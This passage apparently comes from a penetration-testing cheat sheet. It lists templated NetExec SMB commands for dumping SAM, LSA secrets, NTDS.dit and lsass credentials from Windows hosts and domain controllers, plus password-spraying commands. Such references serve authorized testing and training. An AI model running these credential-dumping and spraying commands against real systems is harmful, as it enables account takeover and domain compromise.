 ```bash
nxc smb <rhost> -u <user> -p <password> -d <domain> --sam
```

## nxc - Dump LSA
#plateform/linux #target/remote #port/445 #port/139 #protocol/smb #cat/POSTEXPLOIT/CREDS_RECOVER

Dump LSA secrets using methods from secretsdump.py
Requires Domain Admin or Local Admin Privileges on target Domain Controller

```bash
nxc smb <rhost> -u <user> -p <password> -d <domain> --lsa
```

## nxc - dump ntds.dit
#plateform/linux #target/remote #port/445 #port/139 #protocol/smb #cat/POSTEXPLOIT/CREDS_RECOVER

Dump the NTDS.dit from target DC using methods from secretsdump.py
Requires Domain Admin or Local Admin Privileges on target Domain Controller

```bash
nxc smb <rhost> -u <user> -p <password> -d <domain> --ntds
```

## nxc - dump lsass
#plateform/linux #target/remote #port/445 #port/139 #protocol/smb #cat/POSTEXPLOIT/CREDS_RECOVER

```bash
nxc smb <rhost> -u <user> -p <password> -d <domain> -M lsassy
```

## nxc - dump lsass - with bloodhond update
#plateform/linux #target/remote #port/445 #port/139 #protocol/smb #cat/POSTEXPLOIT/CREDS_RECOVER

```bash
nxc smb <rhost> --local-auth -u <user> -H <hash> -M lsassy -o BLOODHOUND=True NEO4JUSER=<user|neo4j> NEO4JPASS=<neo4jpass|exegol4thewin>
```

## nxc - password spray (user=password)
#plateform/linux #target/remote #port/445 #port/139 #protocol/smb #cat/ATTACK/BRUTEFORCE-SPRAY 

```bash
nxc smb <rhost> -u <user.txt> -p <password.txt> --no-bruteforce --continue-on-success
```

## nxc - password spray multiple test 
#plateform/linux #target/remote #port/445 #protocol/smb #cat/ATTACK/BRUTEFORCE-SPRAY #tag/warning

(careful on lockout)

```bash
nxc smb <rhost> -u <user.txt> -p <password.txt> --continue-on-success
```

